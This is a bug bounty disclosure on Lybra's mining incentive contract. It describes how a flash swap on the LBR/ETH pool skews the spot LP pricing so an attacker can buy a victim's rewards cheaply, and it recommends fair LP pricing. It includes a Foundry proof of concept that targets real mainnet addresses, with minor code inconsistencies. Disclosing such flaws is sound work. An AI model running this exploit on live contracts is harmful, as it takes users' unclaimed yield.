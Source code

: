 # A malicious whale can buy eligible user's reward earning at discount by manipulating LP token price of LBR/ETH pool by conducting big swap. Loss of esLBR reward for innocent users.

## Bug Description
Any user might lose its rewards if `stakedLBRLpValue()` is not sufficient as compared to borrowed eUSD amounts.

https://etherscan.io/address/0xdD906b65Da28EEBB615C086BBb9508D04D9fec13?utm_source=immunefi#code
```
    function stakedLBRLpValue(address user) public view returns (uint256) {
        uint256 totalLp = IEUSD(ethlbrLpToken).totalSupply();
        if(totalLp == 0) return 0;
        (, int etherPrice, , , ) = etherPriceFeed.latestRoundData();
        (, int lbrPrice, , , ) = lbrPriceFeed.latestRoundData();
        uint256 etherInLp = (IEUSD(wETH).balanceOf(ethlbrLpToken) * uint(etherPrice)) / 1e8;
        uint256 lbrInLp = (IEUSD(LBR).balanceOf(ethlbrLpToken) * uint(lbrPrice)) / 1e8;
        uint256 userStaked = IEUSD(ethlbrStakePool).balanceOf(user);
        return (userStaked * (lbrInLp + etherInLp)) / totalLp;
    }

  function isOtherEarningsClaimable(address user) public view returns (bool) {
      uint256 staked = stakedOf(user);
      if(staked == 0) return true;
      return (stakedLBRLpValue(user) * 10_000) / staked < minDlpRatio;
  }
```

Here's how we calculate staked lp value of user.

```
  Market cap for LBR-ETH pool token = (LBR amount + LBR price + ETH amount * ETH price)
  LP price = Market cap / totalSupply()
  Staked LP value = LP price * LP token balance 
```

By conducting Uniswap V2 flash swap, we can manipulate LP token amount of LBR-ETH pool inside uniswapV2Call().

```
    function testLybra() public {
        uint256 stakedLp = miningIncentive.stakedLBRLpValue(victim);
        emit log_named_decimal_uint("stakedLp before swap", stakedLp, 8);
        emit log_named_decimal_uint("Earned", earned, 18);

        uint256 tokenOut = 100000 ether;
        LBR_ETH_pool.swap(0, tokenOut, address(this), abi.encode(tokenIn));
    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) payable external {
        require(msg.sender == address(LBR_ETH_pool));

        uint256 stakedLp = miningIncentive.stakedLBRLpValue(victim);
        emit log_named_decimal_uint("stakedLp after swap", stakedLp, 8);

        miningIncentive.buyOthersEarning(victim);
        ...
    }
```

## Impact
Loss of unclaimed yield

A malicious actor can buy eligible user's reward at discount by conducting big swap at LBR-ETH pool

## Recommendation
Please use Alpha Homora Fair LP Pricing Method (flash loan resistant).

- https://cmichel.io/pricing-lp-tokens/
- https://blog.alphafinance.io/fair-lp-token-pricing/
- https://github.com/AlphaFinanceLab/alpha-homora-v2-contract/blob/master/contracts/oracle/UniswapV2Oracle.sol

https://github.com/radiant-capital/v2/blob/main/contracts/radiant/zap/helpers/UniswapPoolHelper.sol#L106-L129
```
	function getLpPrice(uint rdntPriceInEth) public view returns (uint256 priceInEth) {
		IUniswapV2Pair lpToken = IUniswapV2Pair(lpTokenAddr);

		(uint reserve0, uint reserve1, ) = lpToken.getReserves();
		uint wethReserve = lpToken.token0() != address(rdntAddr) ? reserve0 : reserve1;
		uint rdntReserve = lpToken.token0() == address(rdntAddr) ? reserve0 : reserve1;

		uint lpSupply = lpToken.totalSupply();

		uint sqrtK = HomoraMath.sqrt(rdntReserve.mul(wethReserve)).fdiv(lpSupply); // in 2**112

		// rdnt in eth, decis 8
		uint px0 = rdntPriceInEth.mul(2 ** 112); // in 2**112
		// eth in eth, decis 8
		uint px1 = uint256(100000000).mul(2 ** 112); // in 2**112

		// fair token0 amt: sqrtK * sqrt(px1/px0)
		// fair token1 amt: sqrtK * sqrt(px0/px1)
		// fair lp price = 2 * sqrt(px0 * px1)
		// split into 2 sqrts multiplication to prevent uint overflow (note the 2**112)
		uint result = sqrtK.mul(2).mul(HomoraMath.sqrt(px0)).div(2 ** 56).mul(HomoraMath.sqrt(px1)).div(2 ** 56);
		priceInEth = result.div(2 ** 112);
	}
```

## Proof of Concept
```
// SPDX-License-Identifier: UNLICENSED
// !! THIS FILE WAS AUTOGENERATED BY abi-to-sol v0.5.3. SEE SOURCE BELOW. !!
pragma solidity 0.8.20;

import "forge-std/Test.sol";

import "@openzeppelin/contracts/interfaces/IERC20.sol";
import "../src/interfaces/IUniswapPairV2.sol";

interface IEUSDMiningIncentive {
    function buyOthersEarnings(address[] memory users, bool useEUSD) external;

    function refreshReward(address _account) external;
    
    function minDlpRatio() external view returns (uint256);

    function stakedLBRLpValue(address _account) external view returns (uint256);

    function stakedOf(address _account) external view returns (uint256);

    function rewards(address _account) external view returns (uint256);

    function earned(address _account) external view returns (uint256);
}

contract LybraTest is Test {
    IUniswapPairV2          LBR_ETH_pool = IUniswapPairV2(0x3A0eF60e803aae8e94f741E7F61c7CBe9501e569);
    IEUSDMiningIncentive    miningIncentive = IEUSDMiningIncentive(0xdD906b65Da28EEBB615C086BBb9508D04D9fec13);
    address                 victim = 0xee2826453A4Fd5AfeB7ceffeEF3fFA2320081268;
    
    IERC20                  LBR = IERC20(0xed1167b6Dc64E8a366DB86F2E952A482D0981ebd);
    IERC20                  WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

    function setUp() public {
        vm.createSelectFork("mainnet");

        vm.label(address(LBR), "LBR");
        vm.label(address(WETH), "WETH");
        vm.label(address(LBR_ETH_pool), "LBR_WETH pair");
        vm.label(address(miningIncentive), "MiningIncentive");
    }

    function testLybra() public {
        uint256 staked =  miningIncentive.stakedOf(victim);
        uint256 stakedLp = miningIncentive.stakedLBRLpValue(victim);
        uint256 earned = miningIncentive.earned(victim);
        uint256 ratio = stakedLp * 10000 / staked;

        emit log_named_decimal_uint("staked before swap", staked, 8);
        emit log_named_decimal_uint("stakedLp before swap", stakedLp, 8);
        emit log_named_decimal_uint("Earned", earned, 18);
        emit log_named_uint("Ratio before swap", ratio);

        (uint256 v2Reserve0, uint256 v2Reserve1,) = LBR_ETH_pool.getReserves();
        
        uint256 tokenIn = 100 ether;
        uint256 tokenOut = getAmountOut(tokenIn, v2Reserve1, v2Reserve0);
        LBR_ETH_pool.swap(0, tokenOut, address(this), abi.encode(tokenIn));
    }

    function uniswapV2Call(address sender, uint256 amount0, uint256 amount1, bytes calldata data) payable external {
        require(msg.sender == address(LBR_ETH_pool));

        uint256 staked = miningIncentive.stakedOf(victim);
        uint256 stakedLp = miningIncentive.stakedLBRLpValue(victim);
        uint256 ratio = stakedLp * 10000 / staked;

        emit log_named_decimal_uint("staked after swap", staked, 8);
        emit log_named_decimal_uint("stakedLp after swap", stakedLp, 8);
        emit log_named_uint("Ratio after swap", ratio);

        uint256 tokenIn = abi.decode(data, (uint256));

        address[] memory victims = new address[](1);
        victims[0] = victim;
        miningIncentive.buyOthersEarning(victim, false);
        WETH.transfer(address(LBR_ETH_pool), tokenIn);
    }

    function getAmountOut(uint256 amountIn, uint256 reserveIn, uint256 reserveOut)
        internal
        pure
        returns (uint256 amountOut)
    {
        uint256 amountInWithFee = amountIn * 997;
        uint256 numerator = amountInWithFee * reserveOut;
        uint256 denominator = reserveIn * 1000 + amountInWithFee;
        amountOut = numerator / denominator;
    }
}
```
